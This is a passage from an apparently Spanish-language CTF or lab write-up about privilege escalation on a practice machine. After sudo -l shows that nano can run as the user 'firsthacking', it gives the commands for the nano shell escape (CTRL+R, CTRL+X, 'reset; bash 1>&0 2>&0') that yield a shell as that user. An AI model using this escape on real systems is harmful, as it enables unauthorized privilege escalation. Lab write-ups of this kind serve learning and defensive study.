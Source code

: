 si aplicamos sudo -l veremos lo siguiente.
______
![](attachment/a9443835c951d6d4c4259ab842f9aeaa.png)
_____
podemos ejecutar nano como el usuario firsthacking, ya este metodo de escalada de privilegios lo he visto muchas veces.

tenemos que ejecutar el nano como el usuario firsthacking de la siguiente forma.

```bash
sudo -u firsthacking /usr/bin/nano
```

y una vez dentro de nano tenemos que aplicar lo siguiente.

```shell
R^X^ (CTRL+R - CTRL+X)
reset; bash 1>&0 2>&0
```

al aplicar las primeras combinaciones de letras se nos abrirá un apartado donde podremos ejecutar codigo.
_____
![](attachment/22300894426bed6fefa92ebc0b3f945e.png)
____
ejecutamos el comando y ahora somo el usuario
_____
![](attachment/fc6aa971bb44566458df0005de651db1.png)
_____
si aplicamos un sudo -l veremos lo siguiente.
____
![](attachment/5b90a312177ff1cb72794242483a5089.png)
_____